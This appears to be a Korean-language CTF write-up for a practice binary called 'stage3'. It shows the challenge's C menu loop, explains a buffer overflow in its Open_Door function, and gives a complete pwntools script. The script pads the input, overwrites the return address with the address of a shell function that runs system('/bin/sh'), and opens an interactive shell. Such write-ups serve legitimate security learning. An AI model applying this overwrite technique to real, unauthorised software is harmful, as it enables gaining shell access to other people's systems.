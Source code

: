 ```c
        if(select_menu == 0)
        {
            break;
        }
        else if(select_menu == 1)
        {
            Power_Supply();
        }
        else if(select_menu == 2)
        {
            Power_cut_off();
        }
        else if(select_menu == 3)
        {
            Weapon_Select();
        }
        else if(select_menu == 4)
        {
            Check_Security_System_Log();
        }
        else if(select_menu == 5)
        {
            Open_Door();
            puts(" ");
        }
        else if(select_menu == 6)
        {
            Close_Door();
        }
        else
        {
            printf("Wrong input!\n");
            break;
        }
    }
}
```

먼저 메뉴를 입력하고 입력한 메뉴에 따라서 switch 문이 실행이 되는데, Open_Door 함수에서 BOF 취약점이 있다는 것을 확인할 수 있습니다.

그리고 shell 함수 부분을 보면 `system("/bin/sh")` 코드가 있음을 확인할 수 있어서, 리턴 주소를 shell 함수로 바꾸면 exploit이 가능하겠다는 생각을 할 수 있습니다.

그래서 페이로드 흐름은 Open_Door 함수 실행 → BOF를 통해 Return Address Overwrite → shell 함수 실행 으로 잡고 페이로드를 작성했습니다.

- Payload

```python
from pwn import *

p = process("./stage3",stdin=PTY, stdout=PTY)
e = ELF("./stage3")

context.log_level = "debug"
context.arch = "i386"
shell = e.symbols["shell"]

p.sendlineafter(b'Select Menu : ', b'5')

payload = b'A' * 20
payload += b'B' * 8
payload += p32(shell)

p.sendlineafter(b'Enter Password : ', payload)
p.interactive()
```